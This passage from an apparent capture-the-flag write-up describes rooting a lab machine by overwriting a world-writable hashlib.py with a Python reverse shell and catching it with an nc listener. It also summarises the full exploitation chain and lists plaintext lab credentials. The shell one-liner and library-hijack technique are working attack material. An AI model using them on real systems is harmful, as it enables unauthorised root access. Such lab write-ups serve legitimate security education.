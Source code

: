 Since the `hashlib.py` is world-writable, we can just input our own script into it and gain access to root!

```python
# $Id$
#
#  Copyright (C) 2005   Gregory P. Smith (greg@krypto.org)
#  Licensed to PSF under a Contributor Agreement.
#

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

__doc__ = """hashlib module - A common interface to many hash functions.
...
```

This just pops a local reverse shell, which when gets executed and you are listening on TCP port 1234, you get a root shell.

```bash
tWatson@ubuntu:~$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 127.0.0.1 54440 received!
# id
uid=0(root) gid=0(root) groups=0(root)
# cd
# ls
AnswerCyber1.txt
root.txt
# cat root.txt
You're not supposed to be here >:(

Since you are here read: /root/AnswerCyber1.txt
```



# Solution / TL;DR

FTP Anonymous User

LSB Steg -> Creds user 1

```
* tWatson:WarwickEpic123
```

ROP Chain, leak libc call system -> User 2

Overwrite hashlib library and include a reverse shell -> root

### Creds:

- tWatson:WarwickEpic123
- pNorris:CyberSecurityBestDegree123
- warwick:NeverGuessThis (sudoer)

